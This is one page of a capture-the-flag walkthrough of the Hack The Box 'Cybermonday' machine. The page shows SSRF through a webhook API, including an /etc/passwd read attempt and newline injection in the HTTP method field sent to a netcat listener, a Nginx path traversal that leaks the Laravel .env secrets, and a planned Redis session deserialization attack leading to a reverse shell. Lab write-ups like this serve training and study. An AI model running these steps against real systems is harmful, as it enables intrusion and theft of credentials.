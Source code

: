 # HTB Cybermonday - Obtaining More Info

[Initial Enumeration](/writeups/machines/htb-cybermonday/1-initial-enumeration)
[Webhook API Admin Access](/writeups/machines/htb-cybermonday/2-webhook-api-admin)
[**Obtaining More Info**](/writeups/machines/htb-cybermonday/3-obtaining-more-info)
[Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)
[Where to Now?](/writeups/machines/htb-cybermonday/5-where-to-now)
[Reading the Source](/writeups/machines/htb-cybermonday/6-reading-the-source)
[Composing Root Access](/writeups/machines/htb-cybermonday/7-composing-root-access)

Now that we have the ability to [[ssrf|make the web server send requests for us]], the question is what to do with it. The first thing to try would be to [[local-file-inclusion|get files on the system]]:
```shell
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "file://etc/passwd", "method": "GET"}' -v

{"status":"error","message":"Only http protocol is allowed"}
```

Not going to be that easy unfortunately. With us only being able to make [[http|HTTP]] requests, the use right now seems limited. Let's use a [[netcat|`netcat`]] listener and send some requests to see what info the webhook is sending.
```shell
$ nc -lvnp 8080
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "GET"}' -v

GET / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Hmm, not much to go on here. What about a `POST`?
```shell
$ nc -lvnp 8080
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "POST"}' -v

POST / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Still very little. Well we've already tried messing around with the `url` with no luck but what about the `method`?
```shell
$ nc -lvnp 8080
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "HMM"}' -v

HMM / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

I don't think `HMM` is a valid HTTP verb (though there are a lot more than you might think). So we can assume the `method` is not being validated, but how far does this go?
```shell
$ nc -lvnp 8080
$ curl http://webhooks-api-beta.cybermonday.htb/webhooks/<webhook id> -H 'x-access-token: <your token>' -H 'Content-Type: application/json' -d '{"url": "http://<your ip>:8080", "method": "TEST\ntest 2"}' -v

TEST
test 2 / HTTP/1.1
Host: <your ip>:8080
Accept: */*
```

Okay, so now we have a way to send data to locations only the server can access. But what can we actually do with this? To figure that out lets first return to the Cybermonday shopping site. Now that we know it's running on [[laravel|Laravel]] we know there's a `.env` file that might contain some useful information. If we look at the headers we also know that the store is running behind an [[nginx|Nginx]] proxy server, which can often be misconfigured to allow for [[path-traversal|path traversal]]. Trying to use this on most paths just results in Laravel receiving the request and providing a `404` response. However if we look at the URL for some of the static images on the site we see there's also an `assets` path available. If you used [[gobuster|`gobuster`]] when first browsing the site you might have also found this directory. Navigating to the directory itself gives us an Nginx `403` message rather than a Laravel `404` which is promising. If we try the path traversal here: 
```
http://cybermonday.htb/assets../.env

APP_NAME=CyberMonday
APP_ENV=local
...
```

We now have an environment file with some very interesting information in it. Among this information is the Laravel `APP_KEY`, and information on both the [[redis|Redis server]] and [[mysql|MySQL server]] this app connects to.

As we can only send data with the webhook and not receive it without a valid HTTP response, the MySQL information is probably not going to be very useful, however Redis has a much [[redis#RESP|simpler protocol]] that doesn't require a back and forth to update information and settings. If you'd like to know more about it you can [read about the Redis RESP protocol here](https://redis.io/docs/reference/protocol-spec/). You might have noticed in the Laravel debug information from the profile page that the app is making use of [[session-poisoning|sessions]]. These sessions will be stored in the Redis server, so if we can find a way to inject a [[php|PHP]] [[deserialization|deserialization]] attack payload into the Redis server, we could potentially have a way to perform [[rce|RCE]] and gain a [[reverse-shell|reverse shell]].

Next: [Gaining a Foothold](/writeups/machines/htb-cybermonday/4-gaining-a-foothold)